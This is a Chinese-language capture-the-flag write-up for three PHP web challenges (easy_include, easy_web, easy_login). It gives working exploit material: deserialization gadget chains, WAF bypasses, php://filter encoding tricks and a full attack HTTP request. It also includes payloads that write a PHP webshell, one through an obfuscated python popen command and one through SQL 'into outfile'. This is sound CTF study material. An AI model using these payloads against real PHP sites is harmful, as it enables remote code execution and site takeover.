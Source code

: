 - > 复现
- # easy_include
	- 思路：绕过waf实现本地include+session构造恶意文件
	- 绕过waf
		- php支持`file://localhost/etc/passwd`这样的文件include
		- ((65b3d87d-c0d2-45b0-8736-6cdec74a9406))
- # easy_web
	- 思路：
		- 绕WAF实现反序列化
		- 利用伪协议与编码格式构造字符串
		- 绕WAF实现命令执行
	- 绕WAF实现反序列化
		- 链：`ctf::__destruct --> show::__call --> Chu0_write::__toString`
			- ```php
			  $chu = new Chu0_write();
			  $chu->chu0 = "";
			  $chu->chu1 = "";
			  $show = new show();
			  $ctf = new ctf();
			  $ctf->h1 = $show;
			  $ctf->h2 = [
			      [
			          0,
			          1,
			          $chu
			      ]
			  ];
			  $a = new ArrayObject([114 => 514]);
			  $a -> o = $ctf; // 把它塞进ArrayObject里
			  
			  echo "sta"."rt" .  base64_encode(serialize($a)) . "stop";
			  ```
		- `show_show.show`
			- 使用`show[show.show`代替
		- `waf1($_REQUEST);`
			- 使用POST参数覆盖GET参数
		- `waf2($_SERVER['QUERY_STRING']);`
			- 使用urlencode编码`show`
		- `preg_match('/^[Oa]:[\d]/i',$_GET['show_show.show'])`
			- 使用 ((6569d71e-f0f4-4d99-961c-e306b814b20e))
	- 利用伪协议与编码格式构造字符串
		- 题目允许我们将恶意内容写入`ctfw.txt`文件，然后用伪协议读取`ctfw.txt`，最后将读取结果作为函数执行
			- 但是恶意内容前面有一串无用字符串，需要考虑过滤
		- 可以使用utf16转utf8将后面的内容转成乱码，并使用base64_decode去除
		- ```php
		  $payload = "php://filter/write=convert.iconv.UTF-8.UTF-16/resource=ctfw";
		  var_dump(waf_in_waf_php($payload));
		  file_put_contents($payload . ".txt", base64_encode("passthru"));
		  
		  $content = file_get_contents("ctfw.txt");
		  # 这是写入ctfw.txt的内容
		  var_dump(urlencode($content));
		  # 这个是提交的伪协议
		  $payload = "php://filter/write=convert.iconv.UTF-16.UTF-8|convert.base64-decode/resource=ctfw";
		  
		  file_put_contents($payload . ".txt", "ctfshowshowshowwww" . $content);
		  ```
	- 绕waf实现命令执行
		- 题目禁了很多符号，不能使用glob或其他技巧绕过waf
		- 这里可以使用python构造任意字符串并执行
		- 这里可以写一小段python实现payload生成
			- ```python
			  revshell = "+".join(f"chr({ord(c)})" for c in "echo '<?=`$_GET[1]`?>' > s.php")
			  payload = "python -c \"print(__import__(chr(111)+chr(115)).popen(revshell))\""
			  payload = payload.replace("revshell", revshell)
			  payload = encoder.urlencode(payload.replace(" ", "\t"))
			  print(payload)
			  print(len(payload))
			  ```
	- 最终的http请求如下
		- ```http
		  POST /?name=php://filter/write=convert.iconv.UTF-16.UTF-8|convert.base64-decode/resource=ctfw&chu0=%FF%FEc%00G%00F%00z%00c%003%00R%00o%00c%00n%00U%00%3D%00&cmd=python%09-c%09%22print%28__import__%28chr%28111%29%2Bchr%28115%29%29.popen%28chr%28101%29%2Bchr%2899%29%2Bchr%28104%29%2Bchr%28111%29%2Bchr%2832%29%2Bchr%2839%29%2Bchr%2860%29%2Bchr%2863%29%2Bchr%2861%29%2Bchr%2896%29%2Bchr%2836%29%2Bchr%2895%29%2Bchr%2871%29%2Bchr%2869%29%2Bchr%2884%29%2Bchr%2891%29%2Bchr%2849%29%2Bchr%2893%29%2Bchr%2896%29%2Bchr%2863%29%2Bchr%2862%29%2Bchr%2839%29%2Bchr%2832%29%2Bchr%2862%29%2Bchr%2832%29%2Bchr%28115%29%2Bchr%2846%29%2Bchr%28112%29%2Bchr%28104%29%2Bchr%28112%29%29%29%22&%73how%5B%73how.%73how=%43%3a%31%31%3a%22%41%72%72%61%79%4f%62%6a%65%63%74%22%3a%31%39%34%3a%7b%78%3a%69%3a%30%3b%61%3a%31%3a%7b%69%3a%31%31%34%3b%69%3a%35%31%34%3b%7d%3b%6d%3a%61%3a%31%3a%7b%73%3a%31%3a%22%6f%22%3b%4f%3a%33%3a%22%63%74%66%22%3a%32%3a%7b%73%3a%32%3a%22%68%31%22%3b%4f%3a%34%3a%22%73%68%6f%77%22%3a%30%3a%7b%7d%73%3a%32%3a%22%68%32%22%3b%61%3a%31%3a%7b%69%3a%30%3b%61%3a%33%3a%7b%69%3a%30%3b%69%3a%30%3b%69%3a%31%3b%69%3a%31%3b%69%3a%32%3b%4f%3a%31%30%3a%22%43%68%75%30%5f%77%72%69%74%65%22%3a%33%3a%7b%73%3a%34%3a%22%63%68%75%30%22%3b%73%3a%30%3a%22%22%3b%73%3a%34%3a%22%63%68%75%31%22%3b%73%3a%30%3a%22%22%3b%73%3a%33%3a%22%63%6d%64%22%3b%4e%3b%7d%7d%7d%7d%7d%7d HTTP/1.1
		  Host: 0d944c2d-9559-43bf-b125-00bea94cd9dc.challenge.ctf.show
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
		  Connection: close
		  Content-Type: application/x-www-form-urlencoded
		  Content-Length: 36
		  
		  show[show.show=1&name=1&chu0=1&cmd=1
		  
		  ```
- # easy_login
	- 实现反序列化
		- 注意到代码使用了`session_decode`函数，这个函数会反序列化传入的数据，所以可以使用这个函数进行反序列化
	- 非预期
		- 反序列之后直接在PDO初始化时传入让数据库执行的SQL写webshell即可
		- ```php
		  
		  $mysql = new mysql_helper();
		  $app = new application();
		  $app -> debug = true;
		  $mysql -> app = $app;
		  $app -> mysql = $mysql;
		  $mysql -> option = array(
		      1002 => "select '<?=`\$_GET[1]`?>'  into outfile '/var/www/html/shell.php';"
		  );
		  $sess = 'user|' . serialize($mysql);
		  session_decode($sess);
		  echo "start" . base64_encode($sess) . "stop";
		  ```
	- ~~控制类的嵌套结构实现控制`__wakeup`的先后，绕过`mysql_helper::__wakeup`带来的限制~~
	  collapsed:: true
		- 这里`mysql_helper::__wakeup`会重置数据库的配置数据，可以通过`__wakeup`绕过解除限制
		- 但是`__wakeup`绕过会导致外层的app对象无法正常反序列化
		- 这里可以让mysql_helper持有对app的引用，然后反序列化mysql_helper，这样就可以让app的wakeup先于mysql_helper
		- ```php
		  $mysql = new mysql_helper();
		  $app = new application();
		  $app -> debug = true;
		  $mysql -> app = $app;
		  $app -> mysql = $mysql; // 这里
		  $sess = 'user|' . serialize($mysql);
		  session_decode($sess);
		  echo "start" . base64_encode($sess) . "stop";
		  
		  ```
	-
